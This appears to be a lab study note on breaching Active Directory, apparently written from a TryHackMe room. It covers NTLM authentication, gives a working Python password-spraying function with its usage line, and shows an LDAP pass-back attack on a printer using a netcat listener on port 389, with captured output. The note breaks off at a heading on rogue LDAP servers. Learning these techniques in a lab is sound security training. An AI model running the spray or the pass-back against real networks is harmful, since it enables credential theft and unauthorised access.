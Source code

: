 # 👾 Breaching Active Directory

### NTLM and NetNTLM

NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM.

All authentication material is forwarded to a Domain Controller in the form of a challenge, and if completed successfully, the application will authenticate the user.

application is authenticating on behalf of the user and not authenticating the user directly on the application itself. This prevents the application from storing AD credentials, which should only be stored on a Domain Controller.

<figure><img src="../../.gitbook/assets/image (382).png" alt=""><figcaption></figcaption></figure>

### Brute-force Login Attacks

Since most AD environments have account lockout configured, we need to perform a password spraying attack. Instead of trying multiple different passwords, which may trigger the account lockout mechanism, we choose and use one password and attempt to authenticate with all the usernames we have acquired.

#### Example

```
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

the input must be:&#x20;

```
python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>
```

<figure><img src="../../.gitbook/assets/image (383).png" alt=""><figcaption></figcaption></figure>

### LDAP

with LDAP authentication, the application directly verifies the user's credentials. The application has a pair of AD credentials that it can use first to query LDAP and then verify the AD user's credentials.

<figure><img src="../../.gitbook/assets/image (384).png" alt=""><figcaption></figcaption></figure>

If you could gain a foothold on the correct host, such as a Gitlab server, it might be as simple as reading the configuration files to recover these AD credentials. These credentials are often stored in plain text in configuration files since the security model relies on keeping the location and storage configuration file secure rather than its contents.

### LDAP Pass-back Attacks

Let's attack a network printer in this network where the administration website does not even require credentials

<figure><img src="../../.gitbook/assets/image (385).png" alt=""><figcaption></figcaption></figure>

So we have the username, but not the password. However, when we press test settings, we can see that an authentication request is made to the domain controller to test the LDAP credentials. Let's try to exploit this to get the printer to connect to us instead, which would disclose the credentials. To do this, let's use a simple Netcat listener to test if we can get the printer to connect to us. Since the default port of LDAP is 389, we can use the following command:

```
nc -lvp 389
```

and then we put our IP in the server input and push ->

```
[thm@thm]$ nc -lvp 389
listening on [any] 389 ...
10.10.10.201: inverse host lookup failed: Unknown host
connect to [10.10.10.55] from (UNKNOWN) [10.10.10.201] 49765
0?DC?;
?
?x
 objectclass0?supportedCapabilities
```

Essentially, before the printer sends over the credentials, it is trying to negotiate the LDAP authentication method details. It will use this negotiation to select the most secure authentication method that both the printer and the LDAP server support. If the authentication method is too secure, the credentials will not be transmitted in cleartext. With some authentication methods, the credentials will not be transmitted over the network at all! So we can't just use normal Netcat to harvest the credentials. We will need to create a rogue LDAP server and configure it insecurely to ensure the credentials are sent in plaintext.

### Hosting a Rogue LDAP Server
